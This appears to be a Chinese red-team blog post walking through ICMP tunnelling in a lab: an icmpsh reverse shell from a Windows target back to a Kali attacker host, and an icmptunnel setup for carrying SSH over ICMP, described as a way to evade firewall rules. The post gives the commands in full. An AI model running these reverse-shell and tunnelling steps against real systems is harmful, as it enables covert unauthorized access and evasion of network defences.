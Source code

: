 ```yaml
---
layout:     post
title:    关于ICMP隧道的应用
subtitle:   ICMP反弹shell以及隧道搭建
date:       2019-11-02
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 红队
    - 渗透测试
    - 内网
---
```

# 关于ICMP隧道的应用


## ICMP简介
ICMP（Internet Control Message Protocol）Internet控制报文协议。它是TCP/IP协议簇的一个子协议，用于在IP主机、路由器之间传递控制消息。控制消息是指网络通不通、主机是否可达、路由是否可用等网络本身的消息。这些控制消息虽然并不传输用户数据，但是对于用户数据的传递起着重要的作用。   
ICMP使用IP的基本支持，就像它是一个更高级别的协议，但是，ICMP实际上是IP的一个组成部分，必须由每个IP模块实现。  

## icmpsh简介
icmpsh是一个简单的基于icmp协议反弹shell的程序，性能较为良好，在主机上运行没有什么权限要求。[项目地址](https://github.com/inquisb/icmpsh)  
测试环境：  
- kali  ip:192.168.1.103  
- win 2008 ip:192.168.1.107  
先在kali里安装icmpsh。  
```
git clone https://github.com/inquisb/icmpsh.git
```
然后在kali上运行icmpsh，但是再次之前需要修改下一些配置，禁用对ping的响应回复，防止内核对ping数据包进行响应，影响程序。  
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```  
服务端开启监听。  
```
cd icmpsh
python icmpsh_m.py <attacker’s-IP> <target-IP>
python icmpsh_m.py 192.168.1.103 192.168.1.107
``` 
然后将项目下的icmpsh.exe放到靶机上去，执行命令  
```
icmpsh.exe -t <attacker's-IP> 
icmpsh.exe -t 192.168.1.103  
```
![191102_1](/img/191102_windows.png)  
![191102_2](/img/191102_kalishell.png)  
## icmp隧道
ICMP隧道是通过ICMP数据包上的TCP连接建立隧道的一种方法。在这里，我们将访问由ICMP数据包封装的ssh会话。因此，会在第3层建立TCP连接，将其封装为icmp数据包。  
环境:  
kali:  
- eth0:192.168.1.103  
- tun0: 10.0.1.2  

ubuntu:  
- ens33:192.168.1.117  
- tun0: 10.0.1.3  
在两边机器分别操作：  
```
git clone https://github.com/jamesbarlow/icmptunnel.git
cd icmptunnel
make
```
然后进行设置网卡操作。  
```
./icmptunnel -s
Ctrl+z
bg  
/sbin/ifconfig tun0 10.0.1.2 netmask 255.255.255.0
``` 
![191102_3](/img/191102_tun0.png)  
同理在ubuntu上执行同样命令，将ip改成10.0.1.3.  
然后通过ssh连接即可。  
因为一些问题，我这里连不上ssh。  
## 总结
实际中，可以通过wireshark，进行抓包能观察到，走的协议是第三层的协议，在一定程度上能绕过防火墙检测规则。  


  